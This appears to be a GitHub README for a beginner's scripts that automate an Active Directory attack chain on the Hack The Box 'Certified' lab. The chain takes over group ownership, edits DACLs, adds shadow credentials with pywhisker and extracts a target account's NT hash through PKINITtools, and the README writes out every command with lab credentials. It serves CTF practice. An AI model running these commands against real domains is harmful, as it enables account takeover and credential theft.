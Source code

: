 # Script for lazy people (_SfLp_)


## ⚠️ WARNING: This script is intended **for lab/testing purposes only** (e.g., Hack The Box, CTFs). Do **not** run this against any production or unauthorized systems.





### This script automate the WriteOwner -> Group -> GenericWrite


#### How to use the script 

#### You will use WoGr.py // and WoGr_rights.py 

<img width="698" height="245" alt="image" src="https://github.com/user-attachments/assets/fc760e9e-87a8-458b-9951-ca4a0901486b" />


<img width="741" height="186" alt="image" src="https://github.com/user-attachments/assets/72030468-6d11-4b7f-b45c-1036c05f60de" />



1) Chmod
```
chmod +x WoGr.py WoGr_rights.py
```
2) Run WoGr.py

```
python3 WoGr.py -u USER -p PASSWORD -d DOMAIN -t TARGET --dc DC [--exp EXP]
```
2 ) exp
```
python3 WoGr.py -u judith.mader -p judith09 -d certified.htb -t management_svc --dc 10.10.11.41 --exp "management_svc.ccache"
```
2 ) If script get the error "INSUFF_ACCESS_RIGHTS" run WoGr_rights.py

<img width="1420" height="376" alt="image" src="https://github.com/user-attachments/assets/dc4fd7dd-58a9-47eb-81c6-cf5bc6c7e182" />

3 )  run WoGr_rights.py 

```
python3 WoGr_rights.py -target_group TARGET_GROUP
```
3 ) exp
```
python3 WoGr_rights.py -target_group management 
```
4 ) Run WoGr.py . And you will get the NT hash for the target 

<img width="467" height="43" alt="image" src="https://github.com/user-attachments/assets/deb13f2e-1a9c-47bc-ab21-5b79d524fdde" />

After that you can run evil winrm :) , have fun 

# EXP

<img width="1201" height="370" alt="image" src="https://github.com/user-attachments/assets/cef31768-6ec0-4bdc-9011-1ddb34d13de4" />

 - 1 User -> we use with WoGr.py : -u , -p 
 - 2 Group -> we use with WoGr_rights.py : -target_group
 - 3 User we want -> we use with WoGr.py : -t , --exp 


----
----
----

# I need to mentionate this it s my first script ... , tested by me on "HTB Certified" the script run a serias of command who get you the NT hash

# The WoGr.py run 

1) nxc for host file 
```
nxc smb <$IP> --generate-hosts-file host_script
```
1.2) And make a creds folder who store all the creds who you give to him

2) Abuse GenericWrite acl to get control of the <User_we_want > account
```
python3 pywhisker.py -d "<dc>" -u "<name>" -p "<pass>" --target "<target user>" --action "add"
```

3) We use faketime for set the curent time of the machine and use gettgtpkinit with the .pfx , pass generated by the pywhisker  
```
faketime "$(ntpdate -q <IP> | cut -d " " -f 1,2)" python3 PKINITtools/gettgtpkinit.py -cert-pfx <file.pfx> certified.htb/management_svc -pfx-pass "<pass(pfx)>" <target user>.ccache
```
4) After he found the AS-REP we use it with faketime and getnthash from PKINITtools to get the NT Hash 
```
faketime "$(ntpdate -q <IP> | cut -d " " -f 1,2)" python3 PKINITtools/getnthash.py -key <key> <dc>/<target user>
```
5) At the end we remove all .pem / .pfx file


# The WoGr_rights.py run 

1) Set owner group 

```
bloodyAD --host "<ip>" -d "<dc>" -u "<name>" -p "<pass>" set owner <group> <name>
```
2) DACL modify
```
impacket-dacledit -action write -rights "FullControl" -inheritance -principal "<user>" -target "<group>" "<dc>/<user>:<pass>"
```
3) Add to the target group
```
net rpc group addmem "management" "<user>" -U "<dc>/<user>%<pass>" -S "<FullDc>"
```
